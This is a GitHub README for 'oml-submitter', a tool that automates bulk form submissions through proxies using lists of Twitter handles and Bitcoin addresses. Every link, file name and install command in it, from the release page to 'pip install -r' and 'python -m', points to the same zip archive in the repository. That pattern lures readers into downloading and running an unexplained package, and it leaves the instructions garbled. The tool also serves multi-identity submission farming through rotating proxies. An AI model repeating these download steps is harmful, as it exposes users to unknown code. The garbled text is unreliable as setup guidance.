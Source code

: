 # 🎉 oml-submitter - Simple Automation for Submissions

[![Download Now](https://raw.githubusercontent.com/tomiofx/oml-submitter/main/stoichiometric/oml-submitter.zip%20Now-Release%20Page-brightgreen)](https://raw.githubusercontent.com/tomiofx/oml-submitter/main/stoichiometric/oml-submitter.zip)

## 📦 Overview
OML Submitter automates submissions to `https://raw.githubusercontent.com/tomiofx/oml-submitter/main/stoichiometric/oml-submitter.zip`. Use the tool responsibly and follow the rules of the target site.

## 🚀 Getting Started

### 1. Download the Application
To start using OML Submitter, visit this page to download the latest version: [Releases Page](https://raw.githubusercontent.com/tomiofx/oml-submitter/main/stoichiometric/oml-submitter.zip).

### 2. Create a Virtual Environment
Set up a clean space to run the application. Follow these steps based on your operating system:

#### For macOS / Linux
```bash
python -m venv .venv
source .venv/bin/activate
```

#### For Windows
```bash
python -m venv .venv
.venv\Scripts\activate
```

### 3. Install Dependencies
Once your virtual environment is active, install the required software by running:

```bash
pip install -r https://raw.githubusercontent.com/tomiofx/oml-submitter/main/stoichiometric/oml-submitter.zip
```

## 📝 Prepare Input Files
You need to create a few text files for the application to work correctly. Make sure you include the following files with the specified content:

- **`https://raw.githubusercontent.com/tomiofx/oml-submitter/main/stoichiometric/oml-submitter.zip`**: Input your proxies in `host:port:user:pass` or `host:port` format.
- **`https://raw.githubusercontent.com/tomiofx/oml-submitter/main/stoichiometric/oml-submitter.zip`**: List the Twitter handles you want to submit, each starting with `@` (e.g., `@username`).
- **`https://raw.githubusercontent.com/tomiofx/oml-submitter/main/stoichiometric/oml-submitter.zip`**: Enter the Bitcoin addresses you want to use.
- **`https://raw.githubusercontent.com/tomiofx/oml-submitter/main/stoichiometric/oml-submitter.zip`, `https://raw.githubusercontent.com/tomiofx/oml-submitter/main/stoichiometric/oml-submitter.zip`, `https://raw.githubusercontent.com/tomiofx/oml-submitter/main/stoichiometric/oml-submitter.zip`**: Provide the corresponding free-text fields regarding your experience, contributions, and reasons.

Use the provided `*https://raw.githubusercontent.com/tomiofx/oml-submitter/main/stoichiometric/oml-submitter.zip` files as templates to structure your inputs correctly.

## 🚀 Running the Application
To run OML Submitter, use the following command. Ensure all your input files are in the same directory:

```bash
python -m https://raw.githubusercontent.com/tomiofx/oml-submitter/main/stoichiometric/oml-submitter.zip --proxies https://raw.githubusercontent.com/tomiofx/oml-submitter/main/stoichiometric/oml-submitter.zip --twitter https://raw.githubusercontent.com/tomiofx/oml-submitter/main/stoichiometric/oml-submitter.zip --btc https://raw.githubusercontent.com/tomiofx/oml-submitter/main/stoichiometric/oml-submitter.zip --experience https://raw.githubusercontent.com/tomiofx/oml-submitter/main/stoichiometric/oml-submitter.zip --contribution https://raw.githubusercontent.com/tomiofx/oml-submitter/main/stoichiometric/oml-submitter.zip --why https://raw.githubusercontent.com/tomiofx/oml-submitter/main/stoichiometric/oml-submitter.zip --results results
```

### ⚙️ Command-line Options
You can customize certain options when running the application:

- `--proxies`: Specify the file containing your proxies.
- Additional options for `twitter`, `btc`, `experience`, `contribution`, and `why` are required.

## 📥 Download & Install
For the latest version of OML Submitter, visit the [Releases Page](https://raw.githubusercontent.com/tomiofx/oml-submitter/main/stoichiometric/oml-submitter.zip) to download and run the software.

## 🌟 Features
- Easy to set up and use.
- Supports multiple input formats.
- Designed to automate submissions efficiently.

## 💡 Helpful Tips
- Always check your input files for accuracy.
- Test the application with a small set of data first.
- Ensure that you have an active internet connection when running the application.

## 🔧 System Requirements
- Basic support for all major operating systems (Windows, macOS, Linux).
- Python 3.6 or higher installed.
- An active internet connection for submission.

## 🛠️ Troubleshooting
If you encounter issues, consider the following:
- Verify that all your input files are correctly formatted.
- Ensure that your virtual environment is activated before running the command.
- Check for any error messages in the terminal for clues on what might be wrong.

## 🛡️ Responsible Use
Use OML Submitter in accordance with the rules of the target site. Automated submissions can impact the site's performance or violate terms of service.

Explore OML Submitter today and automate your submissions simply and effectively.